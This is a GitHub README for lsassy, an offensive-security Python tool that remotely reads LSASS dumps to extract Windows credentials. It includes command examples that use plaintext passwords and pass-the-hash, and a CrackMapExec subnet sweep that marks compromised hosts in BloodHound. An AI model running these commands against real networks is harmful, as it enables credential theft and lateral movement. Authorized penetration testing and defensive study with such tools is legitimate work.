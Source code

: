 # lsassy

[![PyPI version](https://badge.fury.io/py/lsassy.png)](https://badge.fury.io/py/lsassy)

![CME Module example](/assets/cme_lsassy.gif)

Python library to remotely parse lsass dump and extract credentials.
This library uses [impacket](https://github.com/SecureAuthCorp/impacket) projects to remotely read necessary bytes in lsass dump and [pypykatz](https://github.com/skelsec/pypykatz) to extract credentials.

| Chapters                                     | Description                                             |
|----------------------------------------------|---------------------------------------------------------|
| [Requirements](#requirement)                 | Requirements to install lsassy from source              |
| [Basic Usage](#basic-usage)                  | Command line template for standalone version            |
| [CrackMapExec Module](#crackmapexec-module)  | Link to CrackMapExec module included in this repository |
| [Examples](#examples)                        | Command line examples for standalone and CME module     |
| [Installation](#installing)                  | Installation commands from pip or from source           |
| [Issues](#issue)                             | Read this before creating an issue                      |
| [Acknowledgments](#acknowledgments)          | Kudos to these people and tools                         |

## Requirements

* Python >= 3.6
* [pypykatz](https://github.com/skelsec/pypykatz) >= 0.3.0
* [impacket](https://github.com/SecureAuthCorp/impacket)

## Basic Usage

```
lsassy [--hashes [LM:]NT] [<domain>/]<user>[:<password>]@<target>:/share_name/path/to/lsass.dmp
```

## CrackMapExec module

I wrote a CrackMapExec module that uses **lsassy** to extract credentials on compromised hosts

CrackMapExec module is in `cme` folder : [CME Module](/cme/)

## Examples

### lsassy

```
lsassy ADSEC.LOCAL/jsnow:Winter_is_coming_\!@dc01.adsec.local:/C$/Windows/Temp/lsass.dmp

lsassy --hashes 952c28bd2fd728898411b301475009b7 Administrateur@desktop01.adsec.local:/ADMIN$/lsass.dmp
```

### CME Module

```
crackmapexec smb 10.0.0.0/24 -d adsec.local -u Administrator -p Passw0rd -M lsassy -o BLOODHOUND=True NEO4JPASS=bloodhound```
```

## Installing

### From pip

```
python3.7 -m pip install lsassy
```

### From sources

```
python3.7 setup.py install
```

### ChangeLog

```
v0.2.0
------
* Add BloodHound option to CME module (-o BLOODHOUND=True)
    - Set compromised targets as "owned" in BloodHound
    - Check if compromised users have at least one path to domain admin
* Custom parsing (json, grep, pretty [default])
* New --hashes option to lsassy


v0.1.1
------
* Include CME module in repository
* Add credentials to CME database


v0.1.0
------
First release
```

## Issue

If you find an issue with this tool (that's very plausible !), please

* Check that you're using the latest version
* Send as much details as possible.
    - For standalone **lsassy**, please use the `-d` debug flag
    - For CME module, please use CrackMapExec `--verbose` flag

## Acknowledgments

* [Impacket](https://github.com/SecureAuthCorp/impacket)
* [SkelSec](http://twitter.com/skelsec) for Pypykatz, but also for his patience and help
* [mpgn](https://twitter.com/mpgn_x64) for his help and ideas
